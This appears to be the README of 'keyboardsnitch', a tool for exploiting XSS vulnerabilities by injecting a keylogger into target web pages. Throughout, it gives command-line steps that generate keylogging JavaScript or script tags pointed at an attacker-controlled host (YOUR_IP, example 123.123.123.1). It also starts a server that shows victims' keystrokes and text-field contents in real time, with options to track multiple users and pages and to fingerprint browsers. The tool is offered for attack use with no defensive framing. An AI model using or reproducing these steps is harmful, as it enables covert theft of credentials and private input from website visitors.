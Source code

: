 #keyboardsnitch

An easy to use __WebSockets__ keylogger for exploiting XSS vulnerabilities. Fast, reliable, and deadly accurate.

#Key Features

- Easily generate keylogging Javascript code to inject into web apps vulnerable to XSS
- Easily generate script tags linking to keylogging Javascript code to inject into web apps vulnerable to XSS. Easily host keylogger without additional middleware such as __nginx__ or __apache__.
- Smart realtime keylogging shows you exactly where the user is typing at any given moment
- Smart realtime keylogging shows you the exact contents of every text field that the user is viewing at any given moment
- Fully grepable output
- Able to distinguish between keystrokes coming from multiple users and web apps
- Capable of fingerprinting users' browsers
- Interactive Mode included

#Setup

Dependencies can be installed by running:

	pip install -r pip.req

#Usage Instructions

##Step 1 - Inject link to WebSockets source into target page

Run __keyboardsnitch__ with the --ws-source flag to generate a link to the __WebSockets__ source code. 

	python keyboardsnitch.py --ws-source

Copy the script tag into your clipboard and inject into the vulnerable web page. Depending on the nature of the XSS vulnerability you are exploiting, you may have to modify this script tag.

##Step 2 - Inject keylogger into target page

__keyboardsnitch__ provides two methods of injecting its keylogging JavaScript code. You can choose to inject the keylogging JavaScript code directly into the target page, or you can inject a script tag that links to the JavaScript code hosted externally.

###Option 1 - Inject Raw Source Code

To generate a keylogger that can be injected directly into the target page, use the following command:

	# substitute YOUR_IP with your ip address
	# substitute LISTEN_PORT with the port you want keyboardsnitch to listen on
	python keyboardsnitch.py --inject-code --lhost YOUR_IP --lport LISTEN_PORT

__keyboardsnitch__ will automatically modify the keylogger's source code to include your ip/domain and port number.

Example:
	
	python keyboardsnitch.py --inject-code --lhost 123.123.123.1 --lport 80

###Option 2 - Inject Script Tag

Should you want to inject a script tag instead of raw source code, __keyboardsnitch__ makes it easy to do that too. __keyboardsnitch__ can serve the keylogger as a JavaScript file without any additional configuration.

To generate a script tag linking to the keylogger, use the following command:

	# substitute YOUR_IP with your ip address
	# substitute LISTEN_PORT with the port you want keyboardsnitch to listen on
	python keyboardsnitch.py --inject-tag --lhost YOUR_IP --lport LISTEN_PORT

As with the __WebSockets__ script tag, the generated script tag may require additional configuration or modification.

Example:

	python keyboardsnitch.py --inject-tag --lhost 123.123.123.1 --lport 80


##Step 3 - Run Server and Log Keystrokes

Once the keylogger has been injected into the target web page, we start __keyboardsnitch__'s server component to start logging keystrokes.

	# substitute YOUR_IP with your ip address
	# substitute LISTEN_PORT with the port you want keyboardsnitch to listen on
	python keyboardsnitch.py --lhost YOUR_IP --lport LISTEN_PORT

When a user begins typing into a text field on the target web page, the contents of that text field will be shown in real time. Additionally, information about the text field is displayed so that you can identify what is being typed where.


###Addtional Display Options - Quick Reference

If you are targeting a page visited by multiple users, use this command:

	# substitute YOUR_IP with your ip address
	# substitute LISTEN_PORT with the port you want keyboardsnitch to listen on
	python keyboardsnitch.py --clients --lhost YOUR_IP --lport LISTEN_PORT

If you are injecting the keylogger into multiple pages, use this command:

	# substitute YOUR_IP with your ip address
	# substitute LISTEN_PORT with the port you want keyboardsnitch to listen on
	python keyboardsnitch.py --hosts --lhost YOUR_IP --lport LISTEN_PORT

If you are injecting the keylogger into multiple pages and expect those pages to be visited by multiple users, use this command:

	# substitute YOUR_IP with your ip address
	# substitute LISTEN_PORT with the port you want keyboardsnitch to listen on
	python keyboardsnitch.py --clients --hosts --lhost YOUR_IP --lport LISTEN_PORT

If you want information about users' web browsers, use the --user-agents flag along with whatever other flags you choose to include:

	# substitute YOUR_IP with your ip address
	# substitute LISTEN_PORT with the port you want keyboardsnitch to listen on
	python keyboardsnitch.py --user-agents --lhost YOUR_IP --lport LISTEN_PORT

#Interactive Mode

You can also run __keyboardsnitch__ in Interactive Mode by using the --wizard flag:

	python keyboardsnitch.py --wizard

Interactive Mode will walk you through steps 1, 2, 3 shown above.
